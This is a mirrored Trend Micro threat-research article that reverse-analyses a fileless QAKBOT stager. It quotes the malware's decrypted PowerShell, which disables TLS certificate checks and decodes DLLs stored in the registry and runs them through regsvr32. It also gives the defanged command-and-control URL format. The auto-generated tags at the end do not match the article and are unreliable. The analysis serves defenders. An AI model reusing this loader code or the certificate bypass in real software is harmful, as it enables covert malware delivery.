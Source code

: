 # Staging a Quack: Reverse Analyzing a Fileless QAKBOT Stager
### We analyzed a fileless QAKBOT stager possibly connected to the recently reported Squirrelwaffle campaign.

## Information:
+ Source: Trend Micro
+ Link: https://www.trendmicro.com/en_us/research/21/l/staging-a-quack-reverse-analyzing-fileless-qakbot-stager.html
+ Date: 2021-12-17
+ Author: None


## Article:
![Article Image](https://www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/staging-a-quack-reverse-analyzing-a-fileless-qakbot-stager/cover-staging-a-quack-reverse-analyzing-a-fileless-qakbot-stager.jpg)





We recently published how [Squirrelwaffle](https://www.trendmicro.com/en_us/research/21/k/Squirrelwaffle-Exploits-ProxyShell-and-ProxyLogon-to-Hijack-Email-Chains.html) emerged as a loader using two exploits in a recent spam campaign in the Middle East. Further monitoring and analysis from our incident response and extended detection and response teams (IR/XDR) found that one of Squirrelwaffle’s payloads includes [QAKBOT](https://www.trendmicro.com/en_us/research/21/k/qakbot-loader-returns-with-new-techniques-and-tools.html), a banking trojan and infostealer that cybercriminals have been using since 2007.  


During one of our threat hunting initiatives, we found a fileless QAKBOT stager capable of achieving persistence on its own. Furthermore, while QAKBOT is one of the payloads it stages filelessly in the registry, the stager is also capable of staging for more than one malware, a capability that can likely be abused for [more campaigns](https://www.trendmicro.com/en_us/research/21/k/qakbot-loader-returns-with-new-techniques-and-tools.html) in the future.


Technical details






![figure1-staging-a-quack-reverse-analyzing-a-fileless-qakbot-stager](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/staging-a-quack-reverse-analyzing-a-fileless-qakbot-stager/figure1-fileless-qakbot-stager-infection-timeline.png)
Figure 1. Infection chain and timeline





We found a suspicious PowerShell execution in an infected system in the following form:






![figure2-staging-a-quack-reverse-analyzing-a-fileless-qakbot-stager](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/staging-a-quack-reverse-analyzing-a-fileless-qakbot-stager/figure2-staging-a-quack-reverse-analyzing-a%20fileless-stager.png)
Figure 2. PowerShell execution observed




When the code is obfuscated via base64, the command line parameter is usually long and noticeable via XDR. But this specific execution is noticeably short and reads filelessly in the registry despite its base64 encoding.


Using Trend Micro™ Vision One™ with Managed XDR’s progressive root cause analysis (RCA), we were able to trace back the execution to the legitimate process services.exe. It turns out that the suspicious PowerShell execution is triggered via a scheduled task.






![figure3-staging-a-quack-reverse-analyzing-a-fileless-qakbot-stager](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/staging-a-quack-reverse-analyzing-a-fileless-qakbot-stager/figure3-staging-a-quack-reverse-analyzing-a%20fileless-stager.png)
Figure 3. Tracking the suspicious execution with Trend Micro Vision One




![figure-staging-a-quack-reverse-analyzing-a-fileless-qakbot-stager](https://marvel-b1-cdn.bc0a.com/f00000000017219/www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/staging-a-quack-reverse-analyzing-a-fileless-qakbot-stager/figure4-staging-a-quack-reverse-analyzing-a%20fileless-stager.png)
Figure 4. A scheduled task triggered the PowerShell execution.




The PowerShell command is an example of a fileless technique wherein the actual command is stored in the registry. In this case, it was stored in the registry entry HKCU:\SOFTWARE\Uiggvsbhwbcvhom).vqaryay, again encoded in base 64.


Breaking down the decrypted strings


We decrypted and analyzed the encoded string and broke them down. The code’s variables seem to be obfuscated via a randomizer, likely to circumvent detection to a certain extent.








| $KtdH = "{E6CF5F45-43D0-4514-96DE-151BD04A9079}" <-- Mutex Name

$PgZYjDK = "qafsdb378960" <-- URL parameter (seems to be an ID)
$d\_IP = "/zkr" <-- URL path
$LngwgFRytJ = "jhysoq" <-- Registry Entry 1
$awwWcsGQX = "gqdmzka" <-- Registry Entry 2
$g\_JXBUAMH = "irwtoakzd" <-- Registry Entry 3
$WQudUrNwDr = "daedvnjlph" <-- Registry Entry 4 (Date Entry)
$tvDQbLr = "HKCU:\SOFTWARE\Uiggvsbhwbcvhom" <-- Registry Key |






The next set of code sets PowerShell to skip secure sockets layer (SSL) certificate checks, [bypassing](https://til.intrepidintegration.com/powershell/ssl-cert-bypass) the inherent security protocol.








| add-type @"
    using System.Net;
    using System.Security.Cryptography.X509Certificates;
    public class TrustAllCertsPolicy : ICertificatePolicy {
        public bool CheckValidationResult(
            ServicePoint srvPoint, X509Certificate certificate,
            WebRequest request, int certificateProblem) {
            return true;
        }
    }
"@
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy |






The string then checks for mutex to ensure a single execution, which is the usual for malware implementations. It also checks if the date is already set in registry entry 4. While the exact date is insignificant, it serves as a marker for this fileless malware. If the marker is not yet set, it will proceed with a drop-and-execute routine. Otherwise, it skips a routine. 








| function UQTV()
{
    $MwmmBxnVjO = Get-Random
    $RBnYwaG = (Get-ItemProperty -Path $tvDQbLr).$LngwgFRytJ
    if ($RBnYwaG) {
        $\_f\_zhkPw = "$env:TEMP\\$($MwmmBxnVjO)1.dll"
        $fPsS = [System.Convert]::FromBase64String($RBnYwaG)
        [System.IO.File]::WriteAllBytes($\_f\_zhkPw, $fPsS)
        Start-Process -FilePath "regsvr32.exe" -ArgumentList "$\_f\_zhkPw"
    } else {
    }
    $OlKwHqqEa = (Get-ItemProperty -Path $tvDQbLr).$awwWcsGQX
    if ($OlKwHqqEa) {
        $\_f\_zhkPw = "$env:TEMP\\$($MwmmBxnVjO)2.dll"
        $fPsS = [System.Convert]::FromBase64String($OlKwHqqEa)
        [System.IO.File]::WriteAllBytes($\_f\_zhkPw, $fPsS)
        Start-Process -FilePath "regsvr32.exe" -ArgumentList "$\_f\_zhkPw"
    } else {
    }
} |






Depending on which registry entry is present (either registry entry 1 or 2), the string will drop and execute via regsvr32.exe a dynamic link library (DLL) file that was filelessly stored in either registry entry 1 or 2. We observed the DLL file is a QAKBOT variant.


At this point, it’s easy to assume that the stager is done since it has already dropped the main payload. We observed that at this stage, it has only performed half of its purpose. Continuing with the decrypted code, we see this:








| $PNpOl = (Get-ItemProperty -Path $tvDQbLr).$g\_JXBUAMH
if (!$PNpOl) {
    exit
}
$mbATsNmtaw = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($PNpOl))
$anvsPJMJpe = 0;
$DXSMgDi = $mbATsNmtaw.Split(";")
foreach ($qtNuK\_ in $DXSMgDi) {
    \_\_NOxzyOQT $qtNuK\_
    if ($global:rcxEcF -eq 1) {
        break
    }
    $anvsPJMJpe++
}
exit 0  |






The stager reads registry entry 3, and the content of this registry is another encoded string. When decrypted, the string is a list of combined IP addresses and ports. Configured in the memory, the stager would have access to the URL format of hxxps[:]//<IP>:<Port>/zkr?n=qafsdb378960, where it would take three parameters:


* The first parameter is for the switch case


1. Execute via regsvr32.exe
2. Execute via Start-Process (exe)
3. Execute via invoke-expression (IEX)
4. Execute via cmd.exe
5. Execute via Start-Process (bat)
6. Execute via Start-Process (vbs)


* The second parameter is for error handling.
* The third parameter is for the content of the PE file to be downloaded and executed.


 


Conclusion


While we observed this fileless stager only deploying QAKBOT, the stager also serves as a stager for other malware. It also achieves persistence via a scheduled task, which means it can also deploy multiple types of malware as deemed necessary by the cybercriminals behind this stager, with each malware execution triggered with the scheduled task.


There were instances where QAKBOT has tried to hide its tracks by being fileless. However, this is the first time we have encountered this kind of fileless stager with persistence, and having the capability to [move laterally](https://www.bleepingcomputer.com/news/security/microsoft-exchange-servers-hacked-in-internal-reply-chain-attacks/) and download [other types](https://blog.talosintelligence.com/2021/10/squirrelwaffle-emerges.html) of malware such as ransomware. Security teams are advised to reinforce and enable their monitoring mechanisms for better visibility of fileless malware artifacts, suspicious variables, and malicious processes.


Trend Micro solutions


Users can also opt to protect systems through [managed detection and response (MDR)](https://www.trendmicro.com/en_us/business/products/user-protection/sps/endpoint/server-protect.html), which enables the expertise of skilled cybersecurity personnel capable of reading at and between data gathered by advanced artificial intelligence and machine learning technology to correlate and prioritize threats, determining if they are part of a larger attack. Combined with the visibility to track and monitor both malicious and legitimate processes abused for fileless threats and routines in siloed systems, MDR can detect threats before they are executed, preventing further compromise and mitigating the risks of an attack’s lateral spread.


Indicators of Compromise (IOCs)


View the full list of IOCs [here](/content/dam/trendmicro/global/en/research/21/l/staging-a-quack-reverse-analyzing-a-fileless-qakbot-stager/IOCs-staging-a-quack-reverse-analyzing-fileless-QAKBOT-stager.txt).








## Tags:

#### Action:
[[action.malware.name=at]] [[action.malware.name=at]] [[action.malware.name=cmd]] [[action.malware.name=cmd]] [[action.malware.name=Conti]] [[action.malware.name=Net]] [[action.malware.name=QakBot]] [[action.malware.name=Reg]] [[action.malware.name=Reg]] [[action.malware.name=S-Type]] [[action.malware.name=Tor]]

#### Industry:
[[victim.industry.name=Finance]] [[victim.industry.name=Finance]] [[victim.industry.name=Mining]]

#### Location:
[[victim.country.name=Mali]] [[victim.continent.name=Africa]] [[victim.city.name=]] [[victim.country.name=Haiti]] [[victim.continent.name=North and Central America]]

### Autogenerated Tags:
[[Fileless]] [[Malware]] [[Qakbot]] [[Powershell]] [[Start-process]] [[Trend Micro]]


